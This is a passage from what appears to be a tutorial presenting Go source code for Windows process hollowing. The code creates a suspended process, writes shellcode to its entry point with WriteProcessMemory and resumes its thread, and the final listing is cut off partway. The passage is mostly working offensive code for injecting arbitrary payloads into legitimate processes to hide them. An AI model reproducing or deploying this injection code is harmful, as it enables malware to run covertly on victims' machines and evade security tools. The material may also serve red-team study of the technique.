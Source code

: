 ```go

  r2, _, err := WriteProcessMemory.Call(uintptr(pi.Process), uintptr(entrypointAddress), uintptr(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)), 0)
  if r2 == 0 {
    return err
  }

/*

DWORD ResumeThread(
  [in] HANDLE hThread
);

*/

  ResumeThread.Call(uintptr(pi.Thread))

  return nil
}
```

At this point the main function is ready to be used. We just have to define the remaining part of the file like the imports and structs. Taking that into account, this is the final code:

```go
package main

import (
  "log"
  "unsafe"
  "encoding/binary"
  "golang.org/x/sys/windows"
)

type PROCESS_BASIC_INFORMATION struct {
	reserved1                    uintptr    // PVOID
	PebBaseAddress               uintptr    // PPEB
	reserved2                    [2]uintptr // PVOID
	UniqueProcessId              uintptr    // ULONG_PTR
	InheritedFromUniqueProcessID uintptr    // PVOID
}

func ProcessHollowing(shellcode []byte, proc string) error {
  kernel32 := windows.NewLazyDLL("kernel32.dll")
  ntdll := windows.NewLazyDLL("ntdll.dll")

  CreateProcessA := kernel32.NewProc("CreateProcessA")
  ReadProcessMemory := kernel32.NewProc("ReadProcessMemory")
  WriteProcessMemory := kernel32.NewProc("WriteProcessMemory")
  ResumeThread := kernel32.NewProc("ResumeThread")
  ZwQueryInformationProcess := ntdll.NewProc("ZwQueryInformationProcess")

  var pbi PROCESS_BASIC_INFORMATION
  si:= &windows.StartupInfo{}
  pi := &windows.ProcessInformation{}
  cmd := append([]byte(proc), byte(0))

  CreateProcessA.Call(0, uintptr(unsafe.Pointer(&cmd[0])), 0, 0, 0, 0x4, 0, 0, uintptr(unsafe.Pointer(si)), uintptr(unsafe.Pointer(pi)))

  var returnLength int32
  pointerSize := unsafe.Sizeof(uintptr(0))

```